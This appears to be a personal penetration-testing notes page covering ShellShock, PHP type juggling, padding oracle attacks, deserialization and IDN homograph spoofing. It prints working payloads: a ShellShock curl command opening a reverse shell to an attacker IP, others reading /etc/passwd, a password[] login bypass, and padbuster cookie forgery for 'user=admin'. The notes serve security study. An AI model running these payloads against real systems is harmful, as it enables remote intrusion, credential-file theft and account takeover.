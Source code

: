 ```yaml
---
title: Notes | Others
author: Zeropio
date: 2022-04-25
categories: [Notes, Vulnerabilities]
tags: [shellshock, poa, deserialization, idor]
permalink: /notes/vulnerabilities/others
---
```



# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
```console
$ curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/443 0>&1" http://example.com/
```

Other attacks can be:
```console
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://example.com/
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://example.com/
```

Sometimes, this attack can happen in the `/cgi-bin/<SCRIPT>`.

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
```console
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
```
We will probably get an error, but if we modify the content:
```console
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
```
We can log in.

---

# Padding Oracle Attack

A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

## Padbuster
A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

We can use **padbuster** to decode a cookie and try to do a cookie hijacking:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0
```

If it is vulnerable, we can encrypt new cookies. For example if the output is 'user=youruser' we can try:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0 -plaintext "user=admin"
```

Another way to recretate this if we can register a new user and login, we can create a user like **admin=**. This will create an user with the same privilegies as the user admin.

## Bit Flipper Attack / BurpSuite
Another way is to register a new user like **bdmin**. Send the request to the **Intruder**.
Then we can use the following payload: *type: Bit flipper, Format of original data: Literal value, URL encode: disable*

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.
